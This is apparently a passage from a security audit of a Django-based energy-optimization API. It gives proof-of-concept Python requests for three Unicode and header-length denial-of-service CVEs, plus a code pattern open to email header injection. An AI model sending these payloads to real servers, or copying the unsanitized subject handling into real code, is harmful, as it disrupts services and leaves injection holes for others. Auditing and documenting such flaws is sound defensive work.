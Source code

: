 **CVE-2023-41164 - Unicode DoS**
```python
# Craft malicious URL with excessive Unicode characters
malicious_url = "http://reopt-api.example.com/" + "🔥" * 1000000

# Send to any endpoint using django.utils.encoding.uri_to_iri()
requests.get(malicious_url)
# Result: Server CPU exhaustion, memory spike, potential crash
```

**CVE-2023-46695 - UsernameField DoS**
```python
# Send registration/login with massive Unicode username
payload = {
    "username": "𝕌" * 500000,  # Mathematical bold capital U
    "password": "test123",
    "email": "attacker@example.com"
}

requests.post(f"{target}/auth/register", data=payload)
# Result: Backend hangs processing username normalization
```

**CVE-2024-39614 - Language Variant DoS**
```python
# Send crafted Accept-Language header
headers = {
    "Accept-Language": "en-US," + "zh-" * 100000
}

requests.get(f"{target}/api/v1/optimize", headers=headers)
# Result: get_supported_language_variant() causes CPU spike
```

**Impact:**
- Service disruption for critical energy optimization tools
- Prevents legitimate users from accessing renewable energy calculations
- Potential cascading failures in dependent systems
- Reputational damage to NREL

---

#### 4.4 Email Header Injection (CVE-2023-36053)

**Vulnerable Code Pattern:**
```python
from django.core.mail import EmailMessage

# User-controlled subject line
subject = request.POST.get('subject')

email = EmailMessage(
    subject=subject,  # Vulnerable if not sanitized
    body="...",
    to=["admin@nrel.gov"]
)
email.send()
```
